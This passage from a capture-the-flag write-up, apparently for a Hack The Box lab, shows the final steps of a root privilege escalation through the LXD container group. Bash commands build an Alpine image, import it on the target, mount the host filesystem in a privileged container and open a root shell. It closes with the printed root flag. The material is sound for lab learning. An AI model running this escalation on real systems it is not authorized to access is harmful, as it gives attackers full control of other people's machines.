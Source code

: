 13. We then try the method 1

    You can install in your machine this distro builder: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder)(follow the instructions of the github):

    ```bash
    sudo su
    #Install requirements
    sudo apt update
    sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
    #Clone repo
    git clone https://github.com/lxc/distrobuilder
    #Make distrobuilder
    cd distrobuilder
    make
    #Prepare the creation of alpine
    mkdir -p $HOME/ContainerImages/alpine/
    cd $HOME/ContainerImages/alpine/
    wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
    #Create the container
    sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
    ```

    Then, upload to the vulnerable server the files **lxd.tar.xz** and **rootfs.squashfs**

    Add the image:

    ```bash
    lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
    lxc image list #You can see your new imported image
    ```

    ![](../assets/img/htb-starting-point/94.PNG)

    Create a container and add root path

    ```bash
    lxc init alpine privesc -c security.privileged=true --alias=alpine
    lxc list #List containers
    
    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
    ```

    Execute the container:

    ```bash
    lxc start privesc
    lxc exec privesc /bin/sh
    [email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
    ```

14. The flag is in **/mnt/root/root/root.txt** *c693d9c7499d9f572ee375d4c14c7bcf*

